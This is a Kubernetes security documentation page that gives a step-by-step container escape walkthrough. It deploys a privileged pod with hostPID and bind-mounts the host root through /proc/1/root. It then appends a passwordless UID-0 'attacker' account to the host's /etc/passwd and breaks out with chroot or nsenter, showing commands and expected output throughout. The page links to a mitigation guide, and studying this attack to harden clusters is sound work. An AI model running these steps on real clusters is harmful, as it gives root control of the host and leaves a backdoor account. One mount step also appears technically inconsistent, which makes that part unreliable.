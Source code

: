 ```yaml
---
sidebar_position: 8
title: "Container Escape Guide"
description: "Step-by-step guide on breaking out of a container and gaining control over the host system."
---
```


# Container Escape Guide

This guide provides a detailed walkthrough of escaping from a container to gain full control over the host system. The process involves mounting the host's filesystem, modifying critical system files, and entering the host's namespaces.

## Prerequisites

To successfully escape from a container, the following conditions must be met:

- The container must run as root (`runAsUser: 0`).
- `allowPrivilegeEscalation: true` must be enabled.
- `hostPID: true` must be set to share the host’s process namespace.
- The container must have access to `/proc/1/root`, which exposes the host’s root filesystem.
- The container must have permission to execute `mount --bind` and `chroot`.
- The `/proc` filesystem must be accessible from within the container.
- The container must be running in privileged mode (`privileged: true`).

## Step 1: Deploy a Test Pod with Required Privileges

To demonstrate container escape, use the following YAML file to create a privileged pod:

```yaml
apiVersion: v1
kind: Pod
metadata:
  creationTimestamp: null
  labels:
    run: test
  name: test
spec:
  hostPID: true
  containers:
  - image: busybox
    command: ["sleep", "infinity"]
    securityContext:
      runAsUser: 0
      allowPrivilegeEscalation: true
      privileged: true
    name: test
    resources: {}
  dnsPolicy: ClusterFirst
  restartPolicy: Always
status: {}
```

Apply the pod to the cluster:

```bash
kubectl apply -f test-pod.yaml
```

## Step 2: Identify the Container Environment

Before attempting to escape, check if the container is running with elevated privileges and if it has access to the host's filesystem.

### Check the Container’s Mount Namespace

Run inside the container:

```bash
ls -l /proc/1/ns/mnt
```

Example output:

```
lrwxrwxrwx 1 root root 0 Mar 17 16:38 /proc/1/ns/mnt -> 'mnt:[4026535581]'
```

This confirms that the container is isolated in a separate mount namespace from the host.

## Step 3: Gain Access to the Host’s Root Filesystem

If the container has access to `/proc/1/root`, it may point to the actual root filesystem of the host.

Check if it exists:

```bash
ls /proc/1/root
```

Expected output:

```
bin   dev  home  lib32  libx32  mnt  proc  run   srv  tmp  var
boot  etc  lib   lib64  media   opt  root  sbin  sys  usr
```

If the output matches the expected host filesystem structure, proceed.

Now, bind-mount the host’s root filesystem inside the container:

```bash
mkdir /mnt/host
mount --bind /proc/1/root /mnt/host
```

Verify that the mount was successful:

```bash
ls /mnt/host
```

If you see `/bin`, `/etc`, `/var`, `/root`, etc., you have access to the host's filesystem.

## Step 4: Create a Root User on the Host

Now that we have access to the host’s root filesystem, modify `/etc/passwd` to create a root user.

```bash
echo 'attacker:x:0:0::/root:/bin/bash' >> /mnt/host/etc/passwd
```

This adds a new user `attacker` with UID 0 (root privileges).

To verify:

```bash
cat /mnt/host/etc/passwd | grep attacker
```

Expected output:

```
attacker:x:0:0::/root:/bin/bash
```

## Step 5: Escape to the Host’s Root Namespace

### Option 1: Use `chroot` to Change Root

Now, attempt to switch to the host’s root filesystem:

```bash
chroot /mnt/host /bin/sh
```

If successful, running:

```bash
hostname
```

should return the host’s actual hostname.

If `chroot` fails with:

```
can't init_stub: Error { kind: Uncategorized, message: "no /proc/self/exe available. Is /proc mounted?" }
```

or

```
chroot: failed to run command '/bin/sh': No such file or directory
```

then the `/proc`, `/dev`, and `/sys` filesystems must be mounted first.

### Option 2: Bind-Mount Necessary Filesystems

If `chroot` fails, first mount the required system files:

```bash
mount --bind / /mnt/host
mount --bind /proc /mnt/host/proc
mount --bind /sys /mnt/host/sys
mount --bind /dev /mnt/host/dev
mount --bind /run /mnt/host/run
```

Then, try `chroot` again:

```bash
chroot /mnt/host /bin/sh
```

If successful, you are now operating inside the host system.

### Option 3: Use `nsenter` to Enter the Host’s Namespaces

If `chroot` still fails, forcefully enter the host’s namespaces using `nsenter`:

```bash
nsenter --target 1 --mount --uts --ipc --net --pid /bin/sh
```

- `--target 1` → Targets PID 1 (which is `systemd` or `init` on the host).
- `--mount` → Joins the host’s mount namespace.
- `--uts` → Joins the host’s UTS (hostname) namespace.
- `--ipc` → Joins the host’s inter-process communication namespace.
- `--net` → Joins the host’s network namespace.
- `--pid` → Joins the host’s process namespace, making `ps aux` show all host processes.

#### Verify the Escape

Run:

```bash
hostname
```

Expected output: `controlplane` (or another real hostname).

Check if the `kubelet` process is visible:

```bash
ps aux | grep kubelet
```

If you see `kubelet` running, you have fully escaped the container and now control the host.

## Conclusion

You successfully escaped the container by:

1. Deploying a privileged pod with `hostPID: true`.
2. Mounting the host’s root filesystem.
3. Adding a root user to `/etc/passwd`.
4. Using `chroot` or `nsenter` to fully break out of container isolation.

To learn how to prevent container escape vulnerabilities, refer to the mitigation guide:

➡ [Preventing Container Escape](https://geek-kb.github.io/k8s_security/docs/best_practices/cluster_setup_and_hardening/pod_security/container_escape_mitigation/)
